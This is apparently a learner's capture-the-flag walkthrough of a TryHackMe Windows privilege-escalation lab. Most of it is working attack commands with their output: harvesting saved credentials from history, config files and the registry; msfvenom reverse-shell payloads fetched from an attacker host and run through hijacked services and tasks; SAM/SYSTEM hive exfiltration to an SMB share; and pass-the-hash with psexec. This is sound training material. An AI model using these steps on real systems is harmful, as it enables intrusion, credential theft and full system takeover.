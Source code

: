 Looking at our powershell history. This is actually easier from cmd.exe rather than powershell so I spawned a cmd prompt from powershell. but it is possible from PS. To quote the page:

"Note: The command above will only work from cmd.exe, as Powershell won't recognize %userprofile% as an environment variable. To read the file from Powershell, you'd have to replace %userprofile% with $Env:userprofile. "

PS C:\Users\thm-unpriv> cmd.exe
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\thm-unpriv>
C:\Users\thm-unpriv>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
ls
whoami
whoami /priv
whoami /group
whoami /groups
cmdkey /?
**cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z**
cmdkey /list
cmdkey /delete:thmdc.local
cmdkey /list
runas /?
cmd.exe


cmdkey /list

gives us:

Domain:interactive = WPRIVESC1\mike.katz
Type: Domain Password
User: WPRIVESC1\mike.katz

Now we can run a cmd prompt as mike.katz:
runas /savecred /user:mike.katz cmd.exe 

This spawns another cmd.exe this time running as mike.katz and we can navigate to the C:\Users\mike.katz\Desktop and read the flag with
type flag.txt 

(type works a little like cat on Linux boxes)

I did Q2 out of order, but I don't suppose it matters.
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config>type web.config | findstr connectionString 

gives us the db_admin password:
connectionString="Server=thm-db.local;Database=thm-sekure;User ID=*db_admin*;Password=*098n0x35skjD3*" name="THM-DB"

Don't put credentials in code!

Q4 - This one needs to be done from the original thm-unpriv account:
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

leads us to the PuTTY session for thom.smith and password
CoolPass2021

The next page covers some other 'easy wins'

To exploit scheduled tasks you can list them 
schtasks

adding nc64.exe with your attacker IP and port to the vulntask's schtask.bat file and starting a nc -lvnp PORT on your attacking box will result in a reverse shell:

C:\Windows\system32>whoami                                                                                                                                    │
whoami                                                                                                                                                        │
wprivesc1\taskusr1   

Navigate to Desktop and read the flag:
              │
THM{TASK_COMPLETED} 

Insecure permissions on scheduler (service executable)

Here we find that the user can overwrite a service executable.

use msfvenom on attacking machine (set LHOST and LPORT to attack machine)

msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACK_IP LPORT=4445 -f exe-service -o rev-svc.exe

start a server
python3 -m http.Server 8000

and listener

nc -lvnp 4445

On remote machine:

wget:/Attack_IP:4445/rev-svc.exe -O rev-svc.exe

then move the old WService.exe and replace with rev-svc.exe (as shown on the page)

you can stop and start the service without waiting for restart. 

(sc is a shortcut so add .exe)

sc.exe stop windowsschduler
sc.exe start windowsscheduler

and you should get a reverse shell on your attack machine where you can whoami, navigate to that user's Desktop and get the flag!

C:\Users\svcusr1\Desktop>type flag.txt
THM{AT_YOUR_SERVICE}

The next vulnerability exploits how windows treats service names with spaces in. disk searcher enterprise will first try to run disk, then disk searcher, then disk searcher enterprise etc. So if we can sneak an executable in called disk.exe it will be by the service instead of disk searcher etc.

make a payload on attacking machine:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACK_IP LPORT=4446 -f exe-service -o rev-sv2.exe 
nc -lvnp 4446

whisk it over to the remote machine and save in C:\MyPrograms\ as Disk.exe
grant permissions
icacls C:\MyPrograms\Disk.exe /grant Everyone:F

stop and then start the "disk sorter enterprise" service.

Remember to use sc.exe if using Powershell as 'sc' is mapped as a shortcut to Set-Content commandlet

Get flag from user desktop:
type C:\Users\svcusr2\Desktop\flag.txt 

THM{QUOTES_EVERYWHERE}

# Insecure Sys Config
The payloads are all the same, it's just good practice to type out that msfvenom string a lot so here's the next one:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.14.120 LPORT=4447 -f exe-service -o rev-svc3.exe   
start netcat:
nc -lvnp 4447

wget from remote and put in thm-unpriv folder:
wget http://10.11.14.120:8000/rev-svc3.exe -O C:\Users\thm-unpriv\rev-svc3.exe

icacls C:\Users\thm-unpriv\rev-scv3.exe /grant Everyone:F

then configure the vulnerable (editable) THMService to start it.
sc.exe config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
(sc.exe as I'm in powershell)

 sc.exe stop THMService (it hasn't been started)
  sc.exe start THMService
  and viola...nt authoritaaa!!!

nt authority\system:

get flag!
THM{INSECURE_SVC_CONFIG}

# SE Backup/Restore

For the final challenge we will need to use impacket it may be easier to use the attackbox for this task. Or install impacket. This is an optional install on Kali-linux:

sudo apt install python3-impacket

this doesn't automatically install python scripts into /opt as in the examples. So... maybe use find? I did. Not sure what's going on there.

On remote machine start a PS or CMD session as admin and use given creds.

run:
reg save hklm\system C:\Users\THMBackup\system.hive 
reg save hklm\system C:\Users\THMBackup\sam.hive 

On attacking system set up an smb share with impacket tools.

first create a folder called share then start your smb server:
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share.

copy C:\Users\THMBackup\sam.hive \\ATTACK_IP\public\
copy C:\Users\THMBackup\sam.hive \\ATTACK_IP\public\

on remote system copy files

on attack system:
Use impacket to extract credentials from sam.hive and system.hive

The location of your impacket python files may vary...not sure why the ones in /doc/ worked for me ???

──(vagrant㉿kali)-[~/winPrivEsc/share]
└─$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
THMBackup:1008:aad3b435b51404eeaad3b435b51404ee:6c252027fb2022f5051e854e08023537:::
THMTakeOwnership:1009:aad3b435b51404eeaad3b435b51404ee:0af9b65477395b680b822e0b2c45b93b:::
[*] Cleaning up... 

──(vagrant㉿kali)-[~/winPrivEsc/share]
└─$ python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.33.254                                                                                                                                                    130 ⨯
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.33.254.....
[*] Found writable share ADMIN$
[*] Uploading file rBzYacJq.exe
[*] Opening SVCManager on 10.10.33.254.....
[*] Creating service WCNB on 10.10.33.254.....
[*] Starting service WCNB.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt
THM{SEFLAGPRIVILEGE}



